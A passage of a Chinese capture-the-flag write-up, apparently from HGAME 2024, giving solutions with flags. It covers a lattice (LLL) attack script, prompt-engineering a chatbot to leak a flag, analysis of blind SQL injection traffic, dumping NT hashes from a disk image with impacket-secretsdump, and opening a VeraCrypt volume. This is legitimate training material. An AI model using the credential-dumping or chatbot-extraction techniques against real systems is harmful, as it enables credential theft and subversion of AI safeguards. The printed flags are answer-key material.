    2613797279426774540306461931319193657999892129844832159658771717387120246795689678231275371499556522396061591882431426310841974713419974045883021613987705,
    9658126012133217804126630005236073513485215390812977974660029053522665282550965040288256074945246850744694519543358777252929661561636241161575937061521711,
    2982535220844977621775139406357528876019349385634811795480230677982345697183586203669094998039995683973939721644887543907494963824968042199353945120367505,
    107289984878191849357180490850397539311037762262082755398160292401340078782643246498566039415279868796667596686125847400130898160017838981308638814854641,
    120993130590874228473811314869823704699012435303134640953201808807618070048912918046616664677916248813062043597607873728870402493717351447905456920806865,
    2253040652771796284266254261719805768102740653097446325869783812201171144150768875885963729324915714812719138247784194752636928267712344736198611708630089,
    8650007272154283057350664311505887535841268767424545016901418989555620869091145651216448723200240914143882774616678968725523914310965356875681207295242434,
    9628747829107584650014156079928108801687158029086221730883999749044532846489666115473993005442192859171931882795973774131309900021287319059216105939670757,
    10846936951522093706092027908131679912432689712451920718439096706435533926996215766191967052667966065917006691565771695772798711202812180782901250249613072,
    1606865651227988736664127021678689299989045439998336603562232908863405778474520915170766771811336319655792746590981740617823564813573118410064976081989237,
    6239063657591721097735049409610872941214078699330136826592958549212481802973973104374548555184907929255031570525343007518434357690480429981016781110249612,
    1855365916387114620581029939707053701062476745235578683558063796604744448050278138954359506922875967537567359575662394297579958372107484276360920567730458,
]
res = [
    2150646508,
    1512876052,
    2420557546,
    2504482055,
    892924885,
    213721693,
    2708081441,
    1242578136,
    717552493,
    3210536920,
    2868728798,
    1873446451,
    645647556,
    2863150833,
    2481560171,
    2518043272,
    3183116112,
    3032464437,
    934713925,
    470165267,
    1104983992,
    194502564,
    1621769687,
    3844589346,
    21450588,
    2520267465,
    2516176644,
    3290591307,
    3605562914,
    140915309,
    3690380156,
    3646976628,
]
n = 32

l = 2**n + 1
l_inv = inverse_mod(l, p)

t = list(map(lambda ti: -ti * l_inv, t_orig))
a = list(map(lambda ri: ri * l_inv, res))
B = p / 2**32

Bmat = Matrix(QQ, n + 2, n + 2)
for i in range(n):
    Bmat[i, i] = p
    Bmat[n, i] = t[i]
    Bmat[n + 1, i] = a[i]
Bmat[n, n] = B / p
Bmat[n + 1, n + 1] = B

Bmat = Bmat.LLL()

Bmat_0 = Bmat.row(0)
cnt_nonzero = 0
for Bmat_0j in Bmat_0:
    if Bmat_0j != 0:
        B = Bmat_0j
        cnt_nonzero += 1
assert cnt_nonzero == 1

for i in range(1, n + 2):
    Bmat_i = Bmat.row(i)
    res = Bmat_i[-2] * p / B
    print(hex(res))
```

从中选取合适的结果就是 flag。

<https://cyberchef.org/#recipe=From_Hex('None')&input=ZmZmZmZmZmZmZmZmNWY2ODY3NjE2ZDY1N2I0ODMxNjQ2NDMzNmU1ZjRlNzU2ZDYyMzM3MjVmNTA3MjMwNjI2YzMzNmQ1ZjY4NjE3MzVmNjQ2OTY2NjYzMzcyNjU2ZTc0NWY3MzMxNzQ3NTYxNzQ2OTMwNmU3ZGZmZmZmZmZm>

`hgame{H1dd3n_Numb3r_Pr0bl3m_has_diff3rent_s1tuati0n}`

## Misc

### 与 AI 聊天

> 跟他聊一聊吧，从他嘴里翘出 flag
> <https://udify.app/chat/oRajccxObXREMLlO>
> 注意请不要过快提问

基础 prompt engineering。


`hgame{Is_this_a_ai?}`

### Blind SQL Injection

> Blind SQL Injection but in Misc

流量审计。响应有两种，长度为 726 的 1-1 结果和长度为 740 的 1-0 结果。如果 SQLi 的条件成立则返回长度为 726 的帧。由于注入时判断为大于，所以响应长度为 740 的请求中的最小值即为 flag 该位置字符的 ASCII 码。

按照帧长度过滤出所有长度为 740 的响应

`http && (ip.src==172.16.14.21 || frame.len == 740)`

然后取每组的最小值即可。


<https://cyberchef.org/#recipe=From_Decimal('Line%20feed',false)Reverse('Character')&input=MTI1CjEwMgo1MAoxMDIKOTcKNTYKNTAKNTcKNTMKOTkKNTYKNTEKMTAwCjQ1CjU0Cjk5Cjk3Cjk4CjQ1CjU2CjU3CjEwMQo1Mgo0NQo1Mwo1MAo1NQo0OQo0NQo1NQoxMDEKMTAyCjk3Cjk4Cjk3Cjk4Cjk5CjEyMwoxMDMKOTcKMTA4CjEwMgo0NA>

`flag{cbabafe7-1725-4e98-bac6-d38c5928af2f}`

### 简单的 vmdk 取证

> 先找到密码吧 flag
> 格式：hgame{nthash_password}
> 例如 hgame{05D0AB2BB13711B31D5E251C128C889E_happy}
> 附件下载：
> 链接：
>
> - 百度网盘： <https://pan.baidu.com/s/1IYeZ1oRjo2zO-Wf6mB2TVA> 提取码：vics
> - OneDrive: <https://1drv.ms/u/s!ApqEx2DdrD-aoZAr04PLsH2cZESgHA?e=H41gaj>
> - 夸克云盘： <https://pan.quark.cn/s/2b03994942f1#/list/share>

Mount，dump 出注册表文件，然后使用 impacket-secretsdump 即可获取 NT Hash。


```plain-text
┌──(kali㉿kali)-[~]
└─$ impacket-secretsdump -sam ./SAM -system ./system -security ./SECURITY LOCAL
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0x57aeb759fdad3c39cebb787a4fe2b355
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:ac804745ee68ebea19f10a933d4868dc:dac3a2930fc196001f3aeab959748448:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:3d71e1687ae90fb7f887cc48364e29e4:2c5f92675b68aa855091ebb4108ae229:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:f9a0ee136422ce87371cf1666e958dad:::

...

[*] Cleaning up... 
                                                                                                                           
┌──(kali㉿kali)-[~]
└─$
```

查找在线数据库可得到原文。



NT hash 转大写拼接即可。

<https://cyberchef.org/#recipe=To_Upper_case('All')&input=ZGFjM2EyOTMwZmMxOTYwMDFmM2FlYWI5NTk3NDg0NDg>

`hgame{DAC3A2930FC196001F3AEAB959748448_Admin1234}`

### 简单的取证,不过前十个有红包

> 找到 veracrypt 的文件，拿到 flag 吧
> 补充附件：
> 链接：<https://pan.baidu.com/s/19pj-juLLE4BY0lVxFyO4iQ>  提取码：ccyk
> **Hint1 **备注：需要与另一道取证题的附件结合起来看

上一题中的用户桌面上存在一个图片：


OCR 得到 key。


`968fJD17UBzZG6e3yjF6`


```plain-text
PS D:\Workspace\rev\hgame_2024\week_3\vera> dir W:\

    Directory: W:\

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a---           2024/2/14    17:19             51 flag.txt

PS D:\Workspace\rev\hgame_2024\week_3\vera> cat W:\flag.txt
hgame{happy_new_year_her3_1s_a_redbag_key_41342177}
PS D:\Workspace\rev\hgame_2024\week_3\vera>
```

`hgame{happy_new_year_her3_1s_a_redbag_key_41342177}`
